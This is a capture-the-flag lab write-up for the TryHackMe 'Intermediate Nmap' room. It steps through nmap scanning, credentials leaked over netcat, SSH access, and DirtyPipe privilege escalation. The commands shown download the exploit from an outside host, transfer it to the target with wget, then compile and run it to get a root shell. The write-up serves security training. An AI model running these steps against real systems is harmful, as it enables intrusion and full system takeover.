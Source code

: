 # Intermediate Nmap

## Introduction

Welcome to my another writeup! In this TryHackMe [Intermediate Nmap](https://tryhackme.com/room/intermediatenmap) room, you can learn how to use `nmap`, `netcat` and `ssh`! Without further ado, let's dive in.

## Background

> Can you combine your great nmap skills with other tools to log in to this machine?

> Difficulty: Easy

- Overall difficulty for me: Very easy
    - Initial foothold: Very easy
    - Privilege escalation: Very easy

```
You've learned some great nmap skills! Now can you combine that with other skills with netcat and protocols, to log in to this machine and find the flag? This VM MACHINE_IP is listening on a high port, and if you connect to it it may give you some information you can use to connect to a lower port commonly used for remote access!
```

# Service Enumeration

> Note: Since this room is specifically using `nmap`, so I won't use `rustscan` in here.

**Nmap light scan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# nmap -sT -T4 $RHOSTS -oN nmap-lightscan.txt
[...]
PORT      STATE SERVICE
22/tcp    open  ssh
2222/tcp  open  EtherNetIP-1
31337/tcp open  Elite
```

**Options:**
- sT -> Full TCP scan (TCP three-way handshake, SYN, SYN/ACK, ACK)
- T4 -> Timing template 4 (Scan faster)
- oN -> Output the scan in normal format

## Port 31337

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# nc -nv $RHOSTS 31337
(UNKNOWN) [10.10.200.24] 31337 (?) open
In case I forget - user:pass
ubuntu:{Redacted}
```

**Found SSH credentials!**

## SSH on Port 2222

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# nc -nv $RHOSTS 2222 
(UNKNOWN) [10.10.200.24] 2222 (?) open
SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.4
```

# Initial Foothold

**SSH on port 2222:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# ssh ubuntu@$RHOSTS -p 2222
[...]
ubuntu@10.10.200.24: Permission denied (publickey).
```

**Unable to `ssh` into port 2222.**

**SSH on Port 22:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# ssh ubuntu@$RHOSTS              
[...]
$ whoami;hostname;id
ubuntu
f518fa10296d
```

We're user `ubuntu`!

**Spawn a bash PTY shell:**
```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
ubuntu@f518fa10296d:~$ 
```

**flag.txt:**
```
ubuntu@f518fa10296d:~$  cat /home/user/flag.txt
flag{Redacted}
```

# Privilege Escalation (Optional)

**LinPEAS:**
```
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 5.13.0-1014-aws (buildd@lgw01-amd64-060) (gcc (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0, GNU ld (GNU Binutils for Ubuntu) 2.34) #15~20.04.1-Ubuntu SMP Thu Feb 10 17:55:03 UTC 2022
Distributor ID: Ubuntu
Description:    Ubuntu 20.04.3 LTS
Release:    20.04
Codename:   focal
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
[...]
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: [ ubuntu=(20.04|21.04) ],debian=11
   Download URL: https://haxx.in/files/dirtypipez.c
[...]
```

According to [LinPEAS](https://github.com/carlospolop/PEASS-ng)'s output, we can see that **it might vulnerable to [DirtyPipe](https://haxx.in/files/dirtypipez.c).** We can try that exploit to gain root privilege!

**To do so, I'll:**

- Download the [DirtyPipe](https://haxx.in/files/dirtypipez.c) exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# wget https://haxx.in/files/dirtypipez.c
```

Since the target machine has `gcc` installed, I'll transfer the exploit to there, compile it and run it:

**Check is `gcc` installed or not:**
```
ubuntu@f518fa10296d:~$ which gcc
/usr/bin/gcc
```

- Transfer the exploit:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Intermediate_Nmap]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

ubuntu@f518fa10296d:~$ wget http://10.18.61.134/dirtypipez.c -O /tmp/dirtypipez.c

ubuntu@f518fa10296d:~$ gcc /tmp/dirtypipez.c -o /tmp/dirtypipez
ubuntu@f518fa10296d:~$ /tmp/dirtypipez 
Usage: /tmp/dirtypipez SUID
```

Also, if you read through the C exploit, you'll see that it needs a SUID binary. Let's `find` one of those binary:

```
ubuntu@f518fa10296d:/$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/sudo
```

I'll take `/usr/bin/chfn` as an example, you can choose any SUID binary.

- Run the exploit:

```
ubuntu@f518fa10296d:~$ /tmp/dirtypipez /usr/bin/chfn
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# python3 -c "import pty;pty.spawn('/bin/bash')"
root@f518fa10296d:/# whoami;id      
root
uid=0(root) gid=0(root) groups=0(root),1000(ubuntu)
```

I'm root! :D

# Conclusion

What we've learned:

1. Port Scanning via `nmap`
2. Connect To Open Ports via `netcat`
3. Privilege Escalation via Kernel Exploit (DirtyPipe)